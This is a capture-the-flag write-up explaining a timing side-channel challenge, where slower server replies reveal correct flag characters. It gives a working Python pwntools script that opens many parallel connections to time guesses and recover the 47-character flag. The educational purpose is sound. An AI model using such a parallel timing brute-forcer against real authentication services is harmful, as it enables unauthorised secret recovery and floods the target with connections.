 In this challenge, you input some string, and the server will tell you if it's
the flag or not. The more parts of the substring starting from position 0 you
guess correctly, the slower the server responds (.5 seconds increase for every
correct character). The security term for this is the timing attack problem.

You can easily write a bruteforce script. However, it will take forever to
run: `50 * 47 * 23.5 / 60 = 920` mins approximately. 50 is half the length of
string.printable, or the average number of elements you have to cycle in the
set of guessable characters to be correct. 47 is the number of times the loop
runs because you are given that the flag length is 47. 23.5 is half of 47 or
the average time in seconds the server takes to return your guess.

I am no expert on this but I heard from my university class of the term
multiprocessing, which is where you allocate tasks to multiple cores for
asynchronous execution. This method allowed me to connect to the server
simultaneously 100 times for each guessed character of string.printable, so I
reduced the brute force time by 100 fold, which allowed me to solve this
challenge during the length of the competition. Code below.

```  
from pwn import *  
from string import printable  
import time  
import multiprocess

def guess(x):  
   r = remote('50i9k97k4puypj7bvtngr2yco.ctf.p0wnhub.com', '52400')  
   banner = r.recv(4096)  
   init_prompt = r.recv(4096)  
   start = time.time()  
   r.sendline(x)  
   res = r.recv(4096)  
   end = time.time()  
   r.close()  
   return x[-1], end - start

init = 'HZVIII{'

while len(init) != 47:  
   try:  
       p = multiprocess.Pool(len(printable))  
       d = [x for x in p.map(guess, [init + s for s in printable])]  
       init += max(d, key=lambda a: a[1])[0]  
   except:  
       pass  
```